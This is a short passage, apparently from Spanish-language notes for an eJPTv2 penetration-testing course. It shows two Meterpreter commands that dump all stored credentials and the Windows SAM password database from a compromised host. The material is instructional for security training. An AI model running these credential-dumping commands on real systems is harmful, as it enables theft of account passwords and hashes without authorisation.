 ![image.png](Curso%20EJPTv2%20194403fef4da80df82fada01929fa777/image%20103.png)

Volvamos todas las credenciales con el siguiente comando:

```bash
meterpreter > creds_all
```

![image.png](Curso%20EJPTv2%20194403fef4da80df82fada01929fa777/image%20104.png)

Realizamos un volcado de la base de datos SAM con el siguiente comando:

```bash
meterpreter > lsa_dump_sam
```
